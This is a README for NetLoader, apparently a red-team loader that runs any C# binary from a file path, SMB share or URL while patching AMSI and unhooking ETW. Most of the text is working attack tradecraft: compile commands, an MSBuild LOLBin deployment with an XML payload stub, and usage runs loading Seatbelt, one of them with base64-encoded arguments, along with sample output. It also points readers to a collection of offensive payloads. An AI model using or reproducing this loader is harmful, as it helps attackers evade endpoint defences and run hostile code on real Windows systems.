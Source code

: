 # NetLoader
Loads any C# binary from filepath or url, patching AMSI and unhooks ETW

** 01.10.2021 : Non-Obfuscated source code + SharpSploit to 'bypass' userland hooks when patching AMSI and ETW**

**Looking for binaries/payloads to deploy? Checkout [SharpCollection](https://github.com/Flangvik/SharpCollection)**!.  
SharpCollection contains nightly builds of C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines.

# Compile

	c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:RandomName.exe Program.cs

# Deploy via LOLBin (MSBuild)

Payload for MSBuild is in the /LOLBins folder, might push this for varius other LOLBins aswell.
Arguments have to be added into the bottom XML file when NetLoader is deployed using MSBuild

	Adding arguments to the XML payload
	    public class ClassExample : Task, ITask
	    {
	        public override bool Execute()
	        {	//Add your arguments here 
	            SoullikePrincelier.Main(new string[] { "--path", "\\smbshare\Seatbelt.exe" });
	            return true;
	        }
	    }

	For 64 bit:
	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe NetLoader.xml

	For 32 bit:
	C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe NetLoader.xml

# Usage
Deploy payload from local path or SMB share (note that NetLoader automatically detects whether the path provided is local or remote)

	PS C:\Users\Clark Kent\Desktop> .\NetLoader.exe --path Seatbelt.exe --args whoami
	[!] ~Flangvik , ~Arno0x #NetLoader
	[+] Successfully patched AMSI!
	[+] URL/PATH : Seatbelt.exe
	[+] Arguments : whoami


							%&&@@@&&
							&&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
							&%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
	%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
	#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
	#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
	#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
	#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
	###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
	#####%######################  %%%..                       @////(((&%%%%%%%################
							&%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
							&%%&&&%%%%%        v1.0.0         ,(((&%%%%%%%%%%%%%%%%%,
							 #%%%%##,


	ERROR: Error running command "whoami"


	[*] Completed collection in 0,008 seconds


Supports base64 inputs for those long strings that would usually break stuff! 

	PS C:\Users\Clark Kent\Desktop> .\NetLoader.exe --b64 --path U2VhdGJlbHQuZXhl --args d2hvYW1p
	[!] ~Flangvik , ~Arno0x #NetLoader
	[+] All arguments are Base64 encoded, decoding them on the fly
	[+] Successfully patched AMSI!
	[+] URL/PATH : Seatbelt.exe
	[+] Arguments : whoami


							%&&@@@&&
							&&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
							&%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
	%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
	#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
	#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
	#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
	#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
	###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
	#####%######################  %%%..                       @////(((&%%%%%%%################
							&%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
							&%%&&&%%%%%        v1.0.0         ,(((&%%%%%%%%%%%%%%%%%,
							 #%%%%##,


	ERROR: Error running command "whoami"


	[*] Completed collection in 0,006 seconds



